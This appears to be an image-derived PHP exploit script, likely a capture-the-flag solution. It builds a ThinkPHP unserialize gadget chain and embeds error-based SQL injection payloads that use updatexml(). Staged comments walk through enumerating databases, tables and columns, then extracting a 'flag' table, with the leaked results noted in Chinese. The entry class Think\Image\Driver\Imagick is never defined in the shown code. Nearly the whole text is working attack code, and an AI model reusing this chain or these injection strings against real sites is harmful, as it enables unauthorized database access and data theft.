 ```php
namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;
        public function __construct(){
            $this->handle = new Model();
        }
    }
}
namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options = array();
        protected $pk;
        protected $data = array();
        protected $db = null;
        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                //查看数据库名称
                // "table" => "mysql.user where updatexml(1,concat(0x7e,mid((select(group_concat(schema_name))from(information_schema.schemata)),30),0x7e),1)#",
                //数据库名称：'~information_schema,mysql,performance_schema,sys,test~'
                //一次能够读取的长度有限，分两次读取数据  使用mid函数分开读取

                //查表名
                // "table" => "mysql.user where updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#",
                // ~flag,users~

                // 查列名
                //"table" => "mysql.user where updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#",
                //~flag~

                //查字段值
                "table" => "mysql.user where updatexml(1,concat(0x7e,mid((select`*`from`flag`),1),0x7e),1)#",
                "where" => "1=1"
                
            );
        }
    }
}
namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
}


```
